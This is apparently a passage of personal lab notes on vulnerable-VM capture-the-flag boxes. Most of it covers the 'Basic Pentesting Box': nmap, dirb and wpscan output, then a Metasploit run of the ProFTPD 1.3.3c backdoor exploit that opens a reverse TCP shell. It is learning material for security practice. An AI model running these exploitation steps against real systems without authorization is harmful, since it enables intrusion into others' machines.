




Index
- BasicPenTestingBox
- BasicPenTestingBox2
- bee box
- BossPlayer
- CyberChallenge19
- Dawn
- DC-1
- DC-2
- DC-3
- DerpNStik
- EVM
- Fowsniff
- Gemini Inc 1
- JIS_CTF
- mullidae
- PumpkinFestival
- PumpkinGarden
- PumpkinRaising
- QuaoarCTFHackfest2016
- Rickdiculously Easy
- silky02
- silky1
- Typhoon
- VMS to try
- xss challenges
- Blue
- mr robot
- Unfinished VMS
- CasinoRoyale
- WinterMute Straylight
- connect the dots (unfinished)
- arsenal
- heist
- MyHouse Box
- Sputnik
- Node
- HackInOs
- Seattle
- DC416-Galahad
- Not a Box
- ICE
BasicPenTestingBox
Basic Pentesting BoxNmap scan report for 192.168.56.111
Host is up (0.00011s latency).
Not shown: 997 closed ports
PORT STATE SERVICE
21/tcp open ftp
22/tcp open ssh
80/tcp open http
MAC Address: 08:00:27:F7:91:3F (Oracle VirtualBox virtual NIC)
root@kali:~# nmap -A -p- 192.168.56.111
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-06 21:20 EST
Nmap scan report for 192.168.56.111
Host is up (0.00029s latency).
Not shown: 65532 closed ports
PORT STATE SERVICE VERSION
21/tcp open ftp ProFTPD 1.3.3c
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)
| 256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)
|_ 256 12:e2:98:d2:a3:e7:36:4f:be:6b:ce:36:6b:7e:0d:9e (ED25519)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:F7:91:3F (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE
HOP RTT ADDRESS
1 0.29 ms 192.168.56.111
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.43 seconds
root@kali:~#
root@kali:~# dirb http://192.168.56.111/ /usr/share/wordlists/dirb/common.txt
-----------------
DIRB v2.22
By The Dark Raver
-----------------
START_TIME: Wed Nov 6 21:21:49 2019
URL_BASE: http://192.168.56.111/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt
-----------------
GENERATED WORDS: 4612
---- Scanning URL: http://192.168.56.111/ ----
+ http://192.168.56.111/index.html (CODE:200|SIZE:177)
==> DIRECTORY: http://192.168.56.111/secret/
+ http://192.168.56.111/server-status (CODE:403|SIZE:302)
---- Entering directory: http://192.168.56.111/secret/ ----
+ http://192.168.56.111/secret/index.php (CODE:301|SIZE:0)
==> DIRECTORY: http://192.168.56.111/secret/wp-admin/
==> DIRECTORY: http://192.168.56.111/secret/wp-content/
==> DIRECTORY: http://192.168.56.111/secret/wp-includes/
+ http://192.168.56.111/secret/xmlrpc.php (CODE:405|SIZE:42)
---- Entering directory: http://192.168.56.111/secret/wp-admin/ ----
+ http://192.168.56.111/secret/wp-admin/admin.php (CODE:302|SIZE:0)
==> DIRECTORY: http://192.168.56.111/secret/wp-admin/css/
==> DIRECTORY: http://192.168.56.111/secret/wp-admin/images/
==> DIRECTORY: http://192.168.56.111/secret/wp-admin/includes/
+ http://192.168.56.111/secret/wp-admin/index.php (CODE:302|SIZE:0)
==> DIRECTORY: http://192.168.56.111/secret/wp-admin/js/
==> DIRECTORY: http://192.168.56.111/secret/wp-admin/maint/
==> DIRECTORY: http://192.168.56.111/secret/wp-admin/network/
==> DIRECTORY: http://192.168.56.111/secret/wp-admin/user/
---- Entering directory: http://192.168.56.111/secret/wp-content/ ----
+ http://192.168.56.111/secret/wp-content/index.php (CODE:200|SIZE:0)
==> DIRECTORY: http://192.168.56.111/secret/wp-content/plugins/
==> DIRECTORY: http://192.168.56.111/secret/wp-content/themes/
---- Entering directory: http://192.168.56.111/secret/wp-includes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://192.168.56.111/secret/wp-admin/css/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://192.168.56.111/secret/wp-admin/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://192.168.56.111/secret/wp-admin/includes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://192.168.56.111/secret/wp-admin/js/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://192.168.56.111/secret/wp-admin/maint/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://192.168.56.111/secret/wp-admin/network/ ----
+ http://192.168.56.111/secret/wp-admin/network/admin.php (CODE:302|SIZE:0)
+ http://192.168.56.111/secret/wp-admin/network/index.php (CODE:302|SIZE:0)
---- Entering directory: http://192.168.56.111/secret/wp-admin/user/ ----
+ http://192.168.56.111/secret/wp-admin/user/admin.php (CODE:302|SIZE:0)
+ http://192.168.56.111/secret/wp-admin/user/index.php (CODE:302|SIZE:0)
---- Entering directory: http://192.168.56.111/secret/wp-content/plugins/ ----
+ http://192.168.56.111/secret/wp-content/plugins/index.php (CODE:200|SIZE:0)
---- Entering directory: http://192.168.56.111/secret/wp-content/themes/ ----
+ http://192.168.56.111/secret/wp-content/themes/index.php (CODE:200|SIZE:0)
-----------------
END_TIME: Wed Nov 6 21:22:02 2019
DOWNLOADED: 36896 - FOUND: 13
root@kali:~#

Add vtcsec to hosts.conf



root@kali:~# wpscan --url http://vtcsec/secret/
_______________________________________________________________
__ _______ _____
\ \ / / __ \ / ____|
\ \ /\ / /| |__) | (___ ___ __ _ _ __ ®
\ \/ \/ / | ___/ \___ \ / __|/ _` | '_ \
\ /\ / | | ____) | (__| (_| | | | |
\/ \/ |_| |_____/ \___|\__,_|_| |_|
WordPress Security Scanner by the WPScan Team
Version 3.6.3
Sponsored by Sucuri - https://sucuri.net
@_WPScan_, @ethicalhack3r, @erwan_lr, @_FireFart_
_______________________________________________________________
[+] URL: http://vtcsec/secret/
[+] Started: Wed Nov 6 21:29:04 2019
Interesting Finding(s):
[+] http://vtcsec/secret/
| Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
| Found By: Headers (Passive Detection)
| Confidence: 100%
[+] http://vtcsec/secret/xmlrpc.php
| Found By: Direct Access (Aggressive Detection)
| Confidence: 100%
| References:
| - http://codex.wordpress.org/XML-RPC_Pingback_API
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
| - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access
[+] http://vtcsec/secret/readme.html
| Found By: Direct Access (Aggressive Detection)
| Confidence: 100%
[+] http://vtcsec/secret/wp-cron.php
| Found By: Direct Access (Aggressive Detection)
| Confidence: 60%
| References:
| - https://www.iplocation.net/defend-wordpress-from-ddos
| - https://github.com/wpscanteam/wpscan/issues/1299
[+] WordPress version 4.9 identified (Insecure, released on 2017-11-16).
| Detected By: Rss Generator (Passive Detection)
| - http://vtcsec/secret/index.php/feed/, <generator>https://wordpress.org/?v=4.9</generator>
| - http://vtcsec/secret/index.php/comments/feed/, <generator>https://wordpress.org/?v=4.9</generator>
|
| [!] 26 vulnerabilities identified:
|
| [!] Title: WordPress 2.8.6-4.9 - Authenticated JavaScript File Upload
| Fixed in: 4.9.1
| References:
| - https://wpvulndb.com/vulnerabilities/8966
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-17092
| - https://wordpress.org/news/2017/11/wordpress-4-9-1-security-and-maintenance-release/
| - https://github.com/WordPress/WordPress/commit/67d03a98c2cae5f41843c897f206adde299b0509
|
| [!] Title: WordPress 1.5.0-4.9 - RSS and Atom Feed Escaping
| Fixed in: 4.9.1
| References:
| - https://wpvulndb.com/vulnerabilities/8967
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-17094
| - https://wordpress.org/news/2017/11/wordpress-4-9-1-security-and-maintenance-release/
| - https://github.com/WordPress/WordPress/commit/f1de7e42df29395c3314bf85bff3d1f4f90541de
|
| [!] Title: WordPress 4.3.0-4.9 - HTML Language Attribute Escaping
| Fixed in: 4.9.1
| References:
| - https://wpvulndb.com/vulnerabilities/8968
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-17093
| - https://wordpress.org/news/2017/11/wordpress-4-9-1-security-and-maintenance-release/
| - https://github.com/WordPress/WordPress/commit/3713ac5ebc90fb2011e98dfd691420f43da6c09a
|
| [!] Title: WordPress 3.7-4.9 - 'newbloguser' Key Weak Hashing
| Fixed in: 4.9.1
| References:
| - https://wpvulndb.com/vulnerabilities/8969
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-17091
| - https://wordpress.org/news/2017/11/wordpress-4-9-1-security-and-maintenance-release/
| - https://github.com/WordPress/WordPress/commit/eaf1cfdc1fe0bdffabd8d879c591b864d833326c
|
| [!] Title: WordPress 3.7-4.9.1 - MediaElement Cross-Site Scripting (XSS)
| Fixed in: 4.9.2
| References:
| - https://wpvulndb.com/vulnerabilities/9006
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-5776
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-9263
| - https://github.com/WordPress/WordPress/commit/3fe9cb61ee71fcfadb5e002399296fcc1198d850
| - https://wordpress.org/news/2018/01/wordpress-4-9-2-security-and-maintenance-release/
| - https://core.trac.wordpress.org/ticket/42720
|
| [!] Title: WordPress <= 4.9.4 - Application Denial of Service (DoS) (unpatched)
| References:
| - https://wpvulndb.com/vulnerabilities/9021
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-6389
| - https://baraktawily.blogspot.fr/2018/02/how-to-dos-29-of-world-wide-websites.html
| - https://github.com/quitten/doser.py
| - https://thehackernews.com/2018/02/wordpress-dos-exploit.html
|
| [!] Title: WordPress 3.7-4.9.4 - Remove localhost Default
| Fixed in: 4.9.5
| References:
| - https://wpvulndb.com/vulnerabilities/9053
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-10101
| - https://wordpress.org/news/2018/04/wordpress-4-9-5-security-and-maintenance-release/
| - https://github.com/WordPress/WordPress/commit/804363859602d4050d9a38a21f5a65d9aec18216
|
| [!] Title: WordPress 3.7-4.9.4 - Use Safe Redirect for Login
| Fixed in: 4.9.5
| References:
| - https://wpvulndb.com/vulnerabilities/9054
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-10100
| - https://wordpress.org/news/2018/04/wordpress-4-9-5-security-and-maintenance-release/
| - https://github.com/WordPress/WordPress/commit/14bc2c0a6fde0da04b47130707e01df850eedc7e
|
| [!] Title: WordPress 3.7-4.9.4 - Escape Version in Generator Tag
| Fixed in: 4.9.5
| References:
| - https://wpvulndb.com/vulnerabilities/9055
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-10102
| - https://wordpress.org/news/2018/04/wordpress-4-9-5-security-and-maintenance-release/
| - https://github.com/WordPress/WordPress/commit/31a4369366d6b8ce30045d4c838de2412c77850d
|
| [!] Title: WordPress <= 4.9.6 - Authenticated Arbitrary File Deletion
| Fixed in: 4.9.7
| References:
| - https://wpvulndb.com/vulnerabilities/9100
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-12895
| - https://blog.ripstech.com/2018/wordpress-file-delete-to-code-execution/
| - http://blog.vulnspy.com/2018/06/27/Wordpress-4-9-6-Arbitrary-File-Delection-Vulnerbility-Exploit/
| - https://github.com/WordPress/WordPress/commit/c9dce0606b0d7e6f494d4abe7b193ac046a322cd
| - https://wordpress.org/news/2018/07/wordpress-4-9-7-security-and-maintenance-release/
| - https://www.wordfence.com/blog/2018/07/details-of-an-additional-file-deletion-vulnerability-patched-in-wordpress-4-9-7/
|
| [!] Title: WordPress <= 5.0 - Authenticated File Delete
| Fixed in: 4.9.9
| References:
| - https://wpvulndb.com/vulnerabilities/9169
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20147
| - https://wordpress.org/news/2018/12/wordpress-5-0-1-security-release/
|
| [!] Title: WordPress <= 5.0 - Authenticated Post Type Bypass
| Fixed in: 4.9.9
| References:
| - https://wpvulndb.com/vulnerabilities/9170
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20152
| - https://wordpress.org/news/2018/12/wordpress-5-0-1-security-release/
| - https://blog.ripstech.com/2018/wordpress-post-type-privilege-escalation/
|
| [!] Title: WordPress <= 5.0 - PHP Object Injection via Meta Data
| Fixed in: 4.9.9
| References:
| - https://wpvulndb.com/vulnerabilities/9171
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20148
| - https://wordpress.org/news/2018/12/wordpress-5-0-1-security-release/
|
| [!] Title: WordPress <= 5.0 - Authenticated Cross-Site Scripting (XSS)
| Fixed in: 4.9.9
| References:
| - https://wpvulndb.com/vulnerabilities/9172
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20153
| - https://wordpress.org/news/2018/12/wordpress-5-0-1-security-release/
|
| [!] Title: WordPress <= 5.0 - Cross-Site Scripting (XSS) that could affect plugins
| Fixed in: 4.9.9
| References:
| - https://wpvulndb.com/vulnerabilities/9173
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20150
| - https://wordpress.org/news/2018/12/wordpress-5-0-1-security-release/
| - https://github.com/WordPress/WordPress/commit/fb3c6ea0618fcb9a51d4f2c1940e9efcd4a2d460
|
| [!] Title: WordPress <= 5.0 - User Activation Screen Search Engine Indexing
| Fixed in: 4.9.9
| References:
| - https://wpvulndb.com/vulnerabilities/9174
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20151
| - https://wordpress.org/news/2018/12/wordpress-5-0-1-security-release/
|
| [!] Title: WordPress <= 5.0 - File Upload to XSS on Apache Web Servers
| Fixed in: 4.9.9
| References:
| - https://wpvulndb.com/vulnerabilities/9175
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20149
| - https://wordpress.org/news/2018/12/wordpress-5-0-1-security-release/
| - https://github.com/WordPress/WordPress/commit/246a70bdbfac3bd45ff71c7941deef1bb206b19a
|
| [!] Title: WordPress 3.7-5.0 (except 4.9.9) - Authenticated Code Execution
| Fixed in: 4.9.9
| References:
| - https://wpvulndb.com/vulnerabilities/9222
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-8942
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-8943
| - https://blog.ripstech.com/2019/wordpress-image-remote-code-execution/
| - https://www.rapid7.com/db/modules/exploit/multi/http/wp_crop_rce
|
| [!] Title: WordPress 3.9-5.1 - Comment Cross-Site Scripting (XSS)
| Fixed in: 4.9.10
| References:
| - https://wpvulndb.com/vulnerabilities/9230
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9787
| - https://github.com/WordPress/WordPress/commit/0292de60ec78c5a44956765189403654fe4d080b
| - https://wordpress.org/news/2019/03/wordpress-5-1-1-security-and-maintenance-release/
| - https://blog.ripstech.com/2019/wordpress-csrf-to-rce/
|
| [!] Title: WordPress <= 5.2.2 - Cross-Site Scripting (XSS) in URL Sanitisation
| Fixed in: 4.9.11
| References:
| - https://wpvulndb.com/vulnerabilities/9867
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16222
| - https://wordpress.org/news/2019/09/wordpress-5-2-3-security-and-maintenance-release/
| - https://github.com/WordPress/WordPress/commit/30ac67579559fe42251b5a9f887211bf61a8ed68
|
| [!] Title: WordPress <= 5.2.3 - Stored XSS in Customizer
| Fixed in: 4.9.12
| References:
| - https://wpvulndb.com/vulnerabilities/9908
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17674
| - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
| - https://blog.wpscan.org/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
|
| [!] Title: WordPress <= 5.2.3 - Unauthenticated View Private/Draft Posts
| Fixed in: 4.9.12
| References:
| - https://wpvulndb.com/vulnerabilities/9909
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17671
| - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
| - https://blog.wpscan.org/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
| - https://github.com/WordPress/WordPress/commit/f82ed753cf00329a5e41f2cb6dc521085136f308
| - https://0day.work/proof-of-concept-for-wordpress-5-2-3-viewing-unauthenticated-posts/
|
| [!] Title: WordPress <= 5.2.3 - Stored XSS in Style Tags
| Fixed in: 4.9.12
| References:
| - https://wpvulndb.com/vulnerabilities/9910
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17672
| - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
| - https://blog.wpscan.org/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
|
| [!] Title: WordPress <= 5.2.3 - JSON Request Cache Poisoning
| Fixed in: 4.9.12
| References:
| - https://wpvulndb.com/vulnerabilities/9911
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17673
| - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
| - https://github.com/WordPress/WordPress/commit/b224c251adfa16a5f84074a3c0886270c9df38de
| - https://blog.wpscan.org/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
|
| [!] Title: WordPress <= 5.2.3 - Server-Side Request Forgery (SSRF) in URL Validation
| Fixed in: 4.9.12
| References:
| - https://wpvulndb.com/vulnerabilities/9912
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17669
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17670
| - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
| - https://github.com/WordPress/WordPress/commit/9db44754b9e4044690a6c32fd74b9d5fe26b07b2
| - https://blog.wpscan.org/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
|
| [!] Title: WordPress <= 5.2.3 - Admin Referrer Validation
| Fixed in: 4.9.12
| References:
| - https://wpvulndb.com/vulnerabilities/9913
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17675
| - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
| - https://github.com/WordPress/WordPress/commit/b183fd1cca0b44a92f0264823dd9f22d2fd8b8d0
| - https://blog.wpscan.org/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
[+] WordPress theme in use: twentyseventeen
| Location: http://vtcsec/secret/wp-content/themes/twentyseventeen/
| Last Updated: 2019-05-07T00:00:00.000Z
| Readme: http://vtcsec/secret/wp-content/themes/twentyseventeen/README.txt
| [!] The version is out of date, the latest version is 2.2
| Style URL: http://vtcsec/secret/wp-content/themes/twentyseventeen/style.css?ver=4.9
| Style Name: Twenty Seventeen
| Style URI: https://wordpress.org/themes/twentyseventeen/
| Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
| Author: the WordPress team
| Author URI: https://wordpress.org/
|
| Detected By: Css Style (Passive Detection)
|
| Version: 1.4 (80% confidence)
| Detected By: Style (Passive Detection)
| - http://vtcsec/secret/wp-content/themes/twentyseventeen/style.css?ver=4.9, Match: 'Version: 1.4'
[+] Enumerating All Plugins (via Passive Methods)
[i] No plugins Found.
[+] Enumerating Config Backups (via Passive and Aggressive Methods)
Checking Config Backups - Time: 00:00:00 <===> (21 / 21) 100.00% Time: 00:00:00
[i] No Config Backups Found.
[+] Finished: Wed Nov 6 21:29:07 2019
[+] Requests Done: 50
[+] Cached Requests: 5
[+] Data Sent: 10.958 KB
[+] Data Received: 289.394 KB
[+] Memory used: 176.652 MB
[+] Elapsed time: 00:00:02
root@kali:~#
root@kali:~# searchsploit ftp 1.3.3
--------------------------------------- ----------------------------------------
Exploit Title | Path
| (/usr/share/exploitdb/)
--------------------------------------- ----------------------------------------
ProFTPd 1.3.2 rc3 < 1.3.3b (FreeBSD) - | exploits/linux/remote/16878.rb
ProFTPd 1.3.2 rc3 < 1.3.3b (Linux) - T | exploits/linux/remote/16851.rb
ProFTPd 1.3.3c - Compromised Source Ba | exploits/linux/remote/15662.txt
ProFTPd-1.3.3c - Backdoor Command Exec | exploits/linux/remote/16921.rb
--------------------------------------- ----------------------------------------
Shellcodes: No Result
root@kali:~#
Using exploit 16921
msf5 > search proftpd
Matching Modules
================
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 exploit/freebsd/ftp/proftp_telnet_iac 2010-11-01 great Yes ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (FreeBSD)
1 exploit/linux/ftp/proftp_sreplace 2006-11-26 great Yes ProFTPD 1.2 - 1.3.0 sreplace Buffer Overflow (Linux)
2 exploit/linux/ftp/proftp_telnet_iac 2010-11-01 great Yes ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (Linux)
3 exploit/linux/misc/netsupport_manager_agent 2011-01-08 average No NetSupport Manager Agent Remote Buffer Overflow
4 exploit/unix/ftp/proftpd_133c_backdoor 2010-12-02 excellent No ProFTPD-1.3.3c Backdoor Command Execution
5 exploit/unix/ftp/proftpd_modcopy_exec 2015-04-22 excellent Yes ProFTPD 1.3.5 Mod_Copy Command Execution
msf5 > use exploit/unix/ftp/proftpd_133c_backdoor
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > options
Module options (exploit/unix/ftp/proftpd_133c_backdoor):
Name Current Setting Required Description
---- --------------- -------- -----------
RHOSTS yes The target address range or CIDR identifier
RPORT 21 yes The target port (TCP)
Exploit target:
Id Name
-- ----
0 Automatic
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > set RHOSTS 192.168.56.111
RHOSTS => 192.168.56.111
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > exploit
[*] Started reverse TCP double handler on 192.168.56.1:4444
[*] 192.168.56.111:21 - Sending Backdoor Command
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo M9l8NwcYRFSoXIHu;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
